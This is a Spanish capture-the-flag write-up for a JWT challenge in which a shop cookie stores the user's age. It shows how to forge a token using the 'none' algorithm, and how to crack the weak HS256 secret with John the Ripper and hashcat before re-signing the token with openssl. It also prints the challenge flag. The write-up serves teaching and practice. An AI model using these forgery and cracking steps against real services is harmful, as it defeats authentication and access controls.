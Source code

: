 <h1 align="center">
    🍺 JaggerWhiskyTequila 🍺
</h1>

## 💭 Concepto


Cuando se accede a la web, se pueden observar distintos tipos de bebida. Al intentar comprar una, nos redirige a la URL `/compra` donde nos aparece el siguiente mensaje:

> No tienes +18 años

Si comprobamos las cookies, encontraremos una con el nombre de `cliente` y el siguiente valor:

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJlZGFkIjoxN30.Lq26ql5McZjRfR-2zsTv1Z9UbygMvbbaXP53-QfXO-s
```

Con un poco de práctica, es posible reconocer la estructura de la misma. Las dos primeras letras (`ey`) indican que el comienzo de cadena es el caracter `{` seguido de un espacio o unas comillas. Además, la cookie consta de tres partes delimitadas por puntos.

Por lo tanto, se puede deducir que la solución estará basada en vulnerabilidades conocidas de `JWT`.

> Una pista a mayores es el nombre del reto: **J**agger**W**hisky**T**equila (**JWT**)

## 📜 Teoría

Lo primero de todo es decodificar la cookie. Para ello podemos hacer uso de herramientas online, como [JWT.io](https://jwt.io/), o segmentar la cadena según el delimitador (en este caso, un punto), dado que JWT sigue el siguiente formato:

<h1 align="center">
    <img alt="JWT Format" src="../.img/jwt-format.webp" />
</h1>


En el **Header** se especifica el tipo de formato que se utiliza, así como el algoritmo a usar para cifrar/descifrar los datos.

En el caso del reto, la información obtenida es la siguiente:

```sh
echo -n "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9" | base64 -d
# {"typ": "JWT","alg": "HS256"} 
```

> `HS256` indica que el **Payload** está cifrado usando una clave simétrica

Si hacemos lo mismo con el segundo fragmento, podemos obtener la información guardada actualmente en la cookie:

```sh
echo -n "eyJlZGFkIjoxN30" | base64 -d
# {"edad":17}
```

Como vimos en la página de `/compra`, el mensaje nos indicaba que no teníamos más de 18 años. Ya sólo queda buscar la manera de modificar el valor de la cookie para especificar una edad mayor.

## 💣 Explotación

Este reto se puede resolver de varias maneras.

---

```yml
Vulnerabilidad: Algoritmo None
```

Aunque hoy en día ya no es habitual encontrarse con este fallo, hay veces que las páginas permiten el uso del algoritmo `none` o no comprueban la **Signature**.


En el primer caso y con el fin de modificar el **Payload** satisfactoriamente, bastaría con cambiar el valor de `"alg": "HS256"` a `"alg": "none"`.

En el segundo escenario, se puede optar por borrar la **Signature**, aunque no sería necesario.

Podemos generar nuestro nuevo `JWT` usando el siguiente script de **bash**:

```sh
echo -n $(echo -n '{"typ":"JWT","alg":"none"}' | base64).$(echo -n '{"edad":18}' | base64). | tr -d "="
# eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJlZGFkIjoxOH0.
```

Ahora sólo queda reemplazarlo en la página web y recargar la página para obtener la `flag`.

---

```yml
Vulnerabilidad: Clave HS256 débil
```

Es posible que la clave usada para firmar el **Payload** no sea lo suficientemente fuerte, por lo que sería viable realizar un ataque de fuerza bruta para averiguarla.

La forma estándar de hacerlo es con programas como `JohnTheRipper` o `HashCat`.

Para ello, debemos guardar el valor de la cookie en un fichero:

```sh
echo -n "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJlZGFkIjoxN30.Lq26ql5McZjRfR-2zsTv1Z9UbygMvbbaXP53-QfXO-s" > jwt.hash
```

Una vez guardado, podemos usar diccionarios como `rockyou.txt` para realizar el ataque:

```sh
# Usando JohnTheRipper
john jwt.hash --wordlist=/usr/share/wordlists/rockyou.txt --format=HMAC-SHA256

# Usando HashCat
hashcat -m 16500 jwt.hash /usr/share/wordlists/rockyou.txt
```

En ambos casos, nos dará la clave usada para firmar los datos: `alcoholic`.

Para editar el contenido, podemos hacer uso de herramientas online (como [JWT.io](https://jwt.io/)) o generarla mediante este script en `bash`:

```sh
token=`echo -n $(echo -n '{"typ":"JWT","alg":"HS256"}' | base64).$(echo -n '{"edad":18}' | base64) | tr -d "=" | tr '/+' '_-'`; sign=$(echo -n ${token} | openssl dgst -sha256 -hmac "alcoholic" -binary | base64 | tr -d "=" | tr '/+' '_-'); echo -n "${token}.${sign}"

# eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJlZGFkIjoxOH0.E17PNNNY9mUUNT4VJdKMlMilOP0hZc5ihlMBdar6cCM
```

Igual que antes, sólo queda reemplazar el nuevo token en la página y recargar para obtener la `flag`.

## 🏁 Flag

```
pumaCTF{JwT_4lc0h0l_n_h4nG0v3R}
```